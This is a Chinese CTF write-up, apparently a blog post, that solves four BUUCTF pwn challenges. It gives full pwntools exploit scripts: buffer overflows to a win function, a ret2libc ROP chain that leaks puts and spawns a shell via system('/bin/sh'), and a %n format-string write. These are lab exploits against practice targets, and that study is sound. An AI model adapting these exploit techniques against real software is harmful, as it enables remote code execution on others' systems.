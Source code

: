 # rip
根据IDA加载入main函数声明发现s数组距离`rbp`的距离为F，即为15，这里的运行环境是64位，所以应当将`Caller's rbp`的数据填满，在这里是8位，即可构造payload
```python
from pwn import *
p=remote("node4.buuoj.cn", 25401)
#p=process("./pwn1")
payload=b'a'*15+b'b'*8+p64(0x401186+1)
p.sendline(payload)
p.interactive()
```
# jarvisoj_level0
打开IDA主函数两条命令，很明显可利用漏洞就在`vulnerable_function`函数内，进入后看到buf很明显距离rbp有0x80位，再加上64位机多出来的8位，即覆盖`0x80+0x8`即可覆盖，另外有`callsystem`函数作为漏洞执行入口
```python
from pwn import *
p=remote("node4.buuoj.cn", 27716)
#p=process("./level0")
payload=b'a'*136+p64(0x400596)
#p.sendline(payload)
p.sendlineafter('Hello, World\n',payload)
p.interactive()
```

# ciscn_2019_c_1
首先获取程序的ROP信息`ROPgadget --binary ciscn_2019_c_1 --only 'pop|ret'`
![ROPinfo](https://image.0error.net/img/202220220610191811.png)
后面的具体操作见代码注释
```python
from pwn import *
from LibcSearcher import *
p=remote("node4.buuoj.cn", 27706)
#p=process("./ciscn_2019_c_1")
elf=ELF("./ciscn_2019_c_1")
main=0x400b28
rdi=0x400c83
ret=0x4006b9
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
p.sendlineafter('Input your choice!\n', '1')
payload=b'\0'+b'a'*(0x50-1+8)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)#构造以输出puts_got的内容
p.sendlineafter('Input your Plaintext to be encrypted\n', payload)
p.recvline()
p.recvline()
puts_addr=u64(p.recvuntil('\n')[:-1].ljust(8, b'\0'))#得到puts函数的地址
libc=LibcSearcher("puts", puts_addr)
libc_base=puts_addr-libc.dump("puts")
sys_addr=libc_base+libc.dump("system")
binsh=libc_base+libc.dump("str_bin_sh")#使用LibcSearcher找到对应的libc版本号
p.sendlineafter('choice!\n', '1')
#由于Ubuntu18运行机制与前面版本的不同，在调用system的时候需要进行栈对齐，在这里可以使用ret进行栈对齐
payload=b'\0'+b'a'*(0x50-1+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(sys_addr)
#p.sendline(payload)
p.sendlineafter('encrypted\n',payload)
p.interactive()
```
经过暴力循环测试法，测得最终的libc版本为`libc6_2.27-0ubuntu3_amd64`，然后即可打通本poc  
# [第五空间2019 决赛]PWN5(格式化字符串)
试着运行一下先，发现当输入的长度比较长的时候，回显会出现一点问题，所以合理猜测输出语句存在问题。
![out](https://image.0error.net/img/202220220610204552.png)  
使用32位IDA载入，直接查看main函数
```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int result; // eax
  int fd; // [esp+0h] [ebp-84h]
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  unsigned int v6; // [esp+78h] [ebp-Ch]
  int *v7; // [esp+7Ch] [ebp-8h]

  v7 = &a1;
  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 0x63u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v6 )
    sub_80493D0();
  return result;
}
```
首先看了看栈溢出漏洞，read做了限制字符大小利用不了，但是看到了一个`printf(buf)`这就是一个明显的格式化字符漏洞，再结合题目分析一波，大概流程是随机生成一个数字存入到地址为`dword_804C044`的全局变量中，最后对输入的`passwd`字符进行比较，这里注意下`atoi`这个函数它只会提取正整数，除此之外都是返回0，因为`dword`变量是随机数，所以控制不了（之前见过一题也是随机数，但是它的随机种子在栈里面是可控的，然后用栈溢出，再引用`ctypes`库，加载`libc.so.6`然后就可以获得系统一样的随机数了），但是这题很明显就是通过`printf(buf)`这个漏洞去更改`dword`变量的值  
关于格式化字符串攻击，这里可以从以下两个资料着手了解  
[详谈Format String](https://www.cnblogs.com/0xJDchen/p/5904816.html)
[【整理笔记】格式化字符串漏洞梳理](https://sec.mrfan.xyz/2018/10/23/%E3%80%90%E6%95%B4%E7%90%86%E7%AC%94%E8%AE%B0%E3%80%91%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/)\
利用`AAAA %08x %08x %8x %08x %08x %08x %08x...`这样的字符串来找到我们输入的参数在函数栈上的位置\
假设是在栈中的第n位，则可利用`%n$`定位到参数在栈上的位置，特别值得一提的是，这里的%n中如果是n则默认只想ESP指向的栈顶的内容指向的内存地址，而如果是一个具体的数值x则是指向[ESP+x]\
因此在这道题中，我们就可以把我们不知道的`dword_804C044`改为我们设定的数值即可，由此编写poc
```python
from pwn import *

p = remote("node4.buuoj.cn", 28042)

addr=0x0804C044
payload=p32(addr)+p32(addr+1)+p32(addr+2)+p32(addr+3)
payload+=b'%10$n%11$n%12$n%13$n'
p.sendline(payload)
p.sendline(str(0x10101010))
p.interactive()
```
最终得到flag